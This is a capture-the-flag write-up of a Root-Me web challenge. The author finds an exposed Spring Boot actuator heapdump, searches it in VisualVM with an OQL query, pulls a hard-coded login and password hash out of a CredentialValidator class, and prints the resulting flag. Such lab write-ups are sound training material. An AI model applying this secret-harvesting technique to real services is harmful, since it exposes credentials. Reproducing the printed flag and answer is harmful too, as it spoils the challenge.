



In this challenge, we can access this endpoint `http://challenge01.root-me.org/web-serveur/ch46/metrics` and then find multiple end-points:
```json
{
  "mem": 94240,
  "mem.free": 10351,
  "processors": 4,
  "instance.uptime": 53030449,
  "uptime": 53087880,
  "systemload.average": 4.31,
  "heap.committed": 30720,
  "heap.init": 32768,
  "heap.used": 20368,
  "heap": 30720,
  "nonheap.committed": 64960,
  "nonheap.init": 2496,
  "nonheap.used": 63520,
  "nonheap": 0,
  "threads.peak": 21,
  "threads.daemon": 19,
  "threads.totalStarted": 25,
  "threads": 21,
  "classes": 7054,
  "classes.loaded": 7109,
  "classes.unloaded": 55,
  "gc.ps_scavenge.count": 139,
  "gc.ps_scavenge.time": 2333,
  "gc.ps_marksweep.count": 18,
  "gc.ps_marksweep.time": 5608,
  "httpsessions.max": -1,
  "httpsessions.active": 0,
  "gauge.response.beans": 20,
  "gauge.response.mappings": 6,
  "gauge.response.env.json": 3,
  "gauge.response.autoconfig": 4,
  "gauge.response.trace": 6,
  "gauge.response.dump": 70,
  "gauge.response..-star": 18,
  "gauge.response.health": 4,
  "gauge.response.metrics": 7,
  "gauge.response.root": 15,
  "gauge.response.unmapped": 4,
  "gauge.response.star-star": 29,
  "gauge.response.login": 5,
  "gauge.response.info": 12,
  "gauge.response.heapdump": 3678,
  "gauge.response.env": 5,
  "gauge.response.metrics.name:.-star-": 4,
  "gauge.response.webjars.star-star": 2,
  "gauge.response.mappings.json": 7,
  "gauge.response.configprops": 176,
  "counter.status.200.mappings": 6,
  "counter.status.200.root": 9,
  "counter.status.200.env.json": 2,
  "counter.status.405.unmapped": 4,
  "counter.status.200.configprops": 3,
  "counter.status.200.heapdump": 2,
  "counter.status.404.star-star": 70,
  "counter.status.200.health": 4,
  "counter.status.200.autoconfig": 4,
  "counter.status.200.env": 7,
  "counter.status.200.trace": 5,
  "counter.status.200.metrics.name:.-star-": 4,
  "counter.status.200.beans": 3,
  "counter.status.200.info": 4,
  "counter.status.200.-star": 4,
  "counter.status.404.webjars.star-star": 2,
  "counter.status.200.metrics": 10,
  "counter.status.404.metrics.name:.-star-": 8,
  "counter.status.200.star-star": 4,
  "counter.status.200.dump": 5,
  "counter.status.200.mappings.json": 3,
  "counter.status.200.login": 5
}
```

When accessing `heapdump`, we get the `heapdump` file, a huge dump of the heap.

We'll analyze it using [visualVM](https://visualvm.github.io/).

First, when we loading the file, we can see this summary:



Based on this blog [Java security - spring](https://blogs.tamilctf.com/blogs/Java-Security/spring-security), I tried to execute commands like:
```sql
select s from java.lang.String s where s.toString().contains("token")
```

To detect special strings. 

However, after some good hours I didn't manage to find nothing, so I moved to this article [Analyzing java heapdump vulnerabilities in spring boot  applications](https://nawardrox.medium.com/analyzing-java-heap-dump-vulnerabilities-in-spring-boot-applications-5e18d16314c2).

There, I saw he filters for classes.
So, I tried to filter for all classes with `credential` in their name:



As you can see, we got 5 classes. 

Then, I moved class by class to check for interesting things, remember we're looking for something like `login` and `password` I guess, that's what we can see in the login page.

As you can see, in the `CredentialValidator` we can find the string `LOGIN` which contains: `g4m3rZ`, and `PASSWORD` which contains: `51283da263faa96aac2bceaaf3af2e37`



So, for summary, credentials are:
```
g4m3rZ:51283da263faa96aac2bceaaf3af2e37
```

When trying to connect with this credentials to `http://challenge01.root-me.org/web-serveur/ch46/login`

We get:
```
db23ac29ee9872d71a7532128d5c22b9
```

**Flag:** ***`db23ac29ee9872d71a7532128d5c22b9`***
